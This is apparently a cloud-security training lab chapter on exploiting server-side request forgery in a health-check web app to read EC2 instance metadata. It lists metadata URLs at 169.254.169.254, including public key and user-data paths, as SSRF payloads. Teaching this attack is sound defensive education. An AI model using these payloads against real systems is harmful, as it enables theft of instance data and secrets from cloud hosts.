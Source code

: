 # EC2 Metadata abuse

## Introduction

EC2 Instance metadata is data about your instance that you can use to configure or manage the running instance. 

Although you can only access instance metadata and user data from within the instance itself, the data is not protected by cryptographic methods. Anyone who can access the instance can view its metadata. Therefore, you should take suitable precautions to protect sensitive data (such as long-lived encryption keys). You should not store sensitive data, such as passwords, as user data.

The EC2 meta data is accessible to any process running on the instance therefore any vulnerability that uses the server to make network requests can access information from the metadata endpoint

## What are we going to cover?

This chapter talks about a specific server side vulnerability that allows the user to control a web request that will be made by the server.

## Steps to attack

Browse to http://publicsite-unique-name.cloudsec.training:8000

This application is vulnerable to a Server Side Request Forgery (SSRF)

> A SSRF vulnerability occurs when an application uses user supplied data to make network requests from the webserver (or a different server behind the webserver). An attacker can request internal applications, services, non HTTP ports etc. and retreive information or perform port scans on internal machines or on the Internet.

This application is designed to show if the server health is okay or not. 

For example, passing `http://127.0.0.1` will fetch the index page of the site running on port 80 which tells us that the server health is okay.

However due to this app being vulnerable to SSRF, internal addresses can also be accessed. Specifically the instance metadata endpoint at `http://169.254.169.254`:

![Instance Metadata](images/ec2-metadb1.png)

Try the following URLs

    http://169.254.169.254/latest/meta-data
    
    http://169.254.169.254/latest/meta-data/ami-id
    
    http://169.254.169.254/latest/meta-data/public-hostname
    
    http://169.254.169.254/latest/meta-data/public-keys/
    
    http://169.254.169.254/latest/meta-data/network/interfaces/

    http://169.254.169.254/latest/meta-data/local-ipv4

    http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key/

If user meta-data is attached explicitly to the EC2 then this would be found at

    http://169.254.169.254/latest/user-data

    
## Additional references

- [Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
